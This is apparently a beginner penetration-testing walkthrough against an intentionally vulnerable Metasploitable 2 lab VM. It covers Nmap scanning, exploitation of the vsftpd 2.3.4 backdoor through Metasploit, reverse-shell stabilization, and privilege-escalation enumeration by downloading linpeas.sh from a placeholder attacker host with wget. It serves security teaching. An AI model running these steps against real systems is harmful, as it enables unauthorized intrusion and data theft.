





Introduction
Reconnaissance is the first stage of hacking, where we look for weaknesses in a system
and gather information about it. This step is very essential since if we look in the right
place, anything can be found vulnerable.
In this section, I will explain some basic methods of scanning your target and finding
vulnerabilities. A Metasploitable machine will be used as the target for this section
and other sections too. Metasploitable is a very basic OS of size less than 1 GB, made
vulnerable intentionally for pentesting purposes. A download link for the Metasploitable
OS is available in the sidebar section.
There are two types of reconnaissance, passive and active. Passive scanning includes
searching for the target on the Internet, through social media if it is a person or
looking up their website and DNS records if it is a company. This method does not break any
laws since it is simply looking up public records of the target. For our Metasploitable
machine, since it is not available on the Internet and simply exists on our system, we
cannot look up any records or public website.
(Do NOT expose your Metasploitable VM to the Internet since
it is a vulnerable and can lead to your own machine being hacked.)
But the Metasploitable machine does have an inbuilt Apache server hosting a website full
of flaws. So you can check it out and find all sorts of pages letting you perform attacks
on the web app like LFI, XSS, RCE, etc.
So for our recon, we will make use of a tool called Nmap, a popular network scanning tool.
It can also be used for running scripts on a target if allowed, conduct minor hacking attempts
like brute forcing or exploiting vulnerabilities written in Lua. Nmap can also be used through
a library in Python called python-nmap. I can only give the basics of this tool since it is
such an extensive topic there is a whole book on Nmap.

This is a Nmap scan of the Metasploitable 2 VM from my Kali VM which I stored as a text file
to read it later. The command executed for this output is:
nmap -T4 -sV -v -oN metasploitable.txt -p- 10.0.2.7
Flags And Their Meaning
nmap: This command is used to start the nmap tool and conduct scanning on ports of a target IP.
The flags specify user preferences or it can use default settings if no flags are set.
-T4: This flag specifies how quickly the scan should be executed. The range goes from -T1 to -T5, where
5 is the fastest. Executing scans quickly can leave out some details from the scan and also
trigger any alarms in the target system if they have detection on for large number of requests very quickly.
-sV: This flag runs a script on open ports to detect the version of software running on it.
-v: This is a flag which is found in many command-line tools which gives more output for every command
being run by the tool. This is often useful for debugging in case of errors.
-oN: This flag, along with a parameter, outputs the results of the scan to a file in the specified format.
This is helpful in case you have to run a prolonged attack and do not want to scan the machine repeatedly.
-p-: This flag specifies what ports to scan on the machine. This specific parameter, -, tells Nmap that all ports
should be scanned. Other parameters can include -px for a single port and -px-y for a range where x
and y are port numbers.
10.0.2.7: This is the IP of the machine to be scanned. You can also include a URL if the IP is not available.
Note that these explanations are very brief and are intended to give only a working knowledge of Nmap.
To know more about this tool, run "nmap --help" or "man nmap" in your Linux shell.
Enumeration Techniques
Enumeration is a type of scanning where you can find out details about a host, like subdomains, or usernames,
services and information about a system. This can be active or passive scanning depending on how we go about it.
Tools like sublist3r which use search engines are considered
passive since they don't send any requests to the target itself. On the other hand, tools like enum4linux and
linpeas script are active as they run inside the machine or send requests directly to the server for gathering
information.
Gaining Access
From the previous section, we can see that a lot of services are running in the target which can all be exploited,
since that is the point of creating Metasploitable. For this walkthrough, I'll focus on the first service, vsftpd.
Vsftpd is a FTP server, used for hosting and sharing files through the FTP protocol. FTP listens on port 21 by
default, which is the port our server is listening on. The next part of hacking any machine is finding any weaknesses
from the reconnaissance information we gather, which is precisely what we do.
On searching for vsftpd 2.3.4, we find a backdoor available in this specific version, added by an anonymous person
before the release, affecting everyone using this server. It opens a shell on port 6200 if the login starts with :).
For more details on this, search for CVE-2011-2523.
We'll use Metasploit for using this exploit. Fire up your Metasploit by typing "sudo msfconsole" in your shell and
wait for the database to initialize.

This is a vast framework written in Ruby which helps hackers automate many tasks which would otherwise be time-consuming.
To search for any exploit, simply type in "search <query term>". This will bring up a list of exploits
available for use. To use one from the list, type in <exploit number>. Now before running the attack, we need
to specify the IP of the victim, which can be seen by running "ifconfig" in Metasploitable.

Run "options" in Metasploit, and you'll find a list of options to configure for your exploit. For this walkthrough,
simply run "set RHOSTS 10.0.2.7" to set the target host to 10.0.2.7. There are a lot of options in other exploits
but it is beyond my capability to explain each and every one of them, so run help in Metasploit to get an overview
of commands available and google them as much as you can. It may be the evil incarnate but it is the biggest data hub
ever, so might as well take advantage of it :P You may have your LHOST option misconfigured, so make sure that option
is set to your attacker VM. It is not required in this exploit however.

After you get the correct options set, this is how it'll look. After this, simply run the command "exploit" or "run".
This will spawn a root shell in the metasploitable machine, from where you can import gpg keys for persistent access.
Since this exploit gives us root, I will exploit another vulnerability in the next section which doesn't give that and
then explain post-exploitation methods.
Getting root in target
For this section, I have exploited a RCE in DVWA hosted by Apache server on port 80. This logs me in as www-data in the system.
From this point, we will explore how to escalate to the highest privileges. But before that, run the following commands in the
same sequence to stabilize your reverse shell.
[1] python -c "import pty;pty.spawn('/bin/sh')" // replace with python3 if python 2.x is not installed.
[2] Press Ctrl+Z to background the process.
[3] stty raw -echo
[4] fg
[5] export TERM=xterm
[6] clear
After running these commands. you'll get a regular shell like your native one with fully functional arrow keys. Now we'll
escalate our privileges, which can be approached in different ways. For this tutorial, I'll use the way I use on a regular
basis, a linux enumeration script called linpeas.sh. To run this script, first of all download this script on your attacker
machine and start an http server with the command python -m SimpleHTTPServer 8808, or python3 -m http.server 8808 for Python 3.
This starts a server on port 8808, which you can use to download the script on the victim machine.
Not all the folders will be writable by your user, so to stay on the safe side, change your directory to tmp. From there,
download the script using "wget http://<ATTACKER IP>:<PORT>/linpeas.sh". Then make it executable using
"chmod +x linpeas.sh". Now run it using "./linpeas.sh" and sit back till you get back the prompt.

After running the script, we see a lot of data dumped for our analysis. On reading the output, we find that MySQL has a root
account without any password. This can give us a lot of data from the servers, including usernames, passwords, credit card
information, etc. But that is beyond the scope of this walkthrough. For now, I leave the option of exploring options for
getting root on the machine without using the Apache backdoor.